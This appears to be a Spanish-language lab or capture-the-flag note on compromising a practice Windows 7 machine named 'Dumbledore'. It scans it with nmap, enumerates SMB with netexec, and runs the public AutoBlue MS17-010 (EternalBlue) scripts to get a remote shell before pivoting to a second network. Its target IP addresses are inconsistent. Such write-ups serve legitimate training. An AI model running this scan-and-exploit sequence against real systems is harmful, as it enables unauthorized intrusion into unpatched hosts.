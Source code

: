 [[192.168.100.7(Nagini)]]
#Dumbledore 
- Pwned

Haremos un scaneo de red con [[NMAP]]
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 192.168.100.9`

```python
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
554/tcp  open  rtsp
5357/tcp open  wsdapi
```

Para enumerar el servicio SMB usaremos [[CRACKMAPEXEC-NETEXEC]] con:
`netexec smb 192.168.100.4 2>/dev/null`
```python
SMB 192.168.100.4 445 DUMBLEDORE-PC    
[*] Windows 7 / Server 2008 R2 Build 7601 x64 
(name:DUMBLEDORE-PC) 
(domain:Dumbledore-PC) 
(signing:False) 
(SMBv1:True) 
```

Estamos ante un Windows 7 con el puerto SMB expuesto.
Como es una versión y un puerto vulnerables vamos a realizar un ataque de eternalBlue
Usáremos el repositorio de GitHub: `https://github.com/3ndG4me/AutoBlue-MS17-010`
Dentro de esta herramienta usaremos primero `eternal_checker.py` usaremos para saber si la maquina es vulnerable: `python3 eternal_checker.py 192.168.100.9`

Ahora automatizaremos el proceso de obtener una consola interactiva con la herramienta `zzz_exploit.py` ejecutándola con `python3 zzz_exploit.py 192.168.100.9` y conseguiremos usa Shell dentro de la maquina Windows.

Una vez dentro si hacemos `ipconfig` veremos que dentro se encuentra otra interfaz de red con  [[172.18.0.6(Dumbledore)]] 

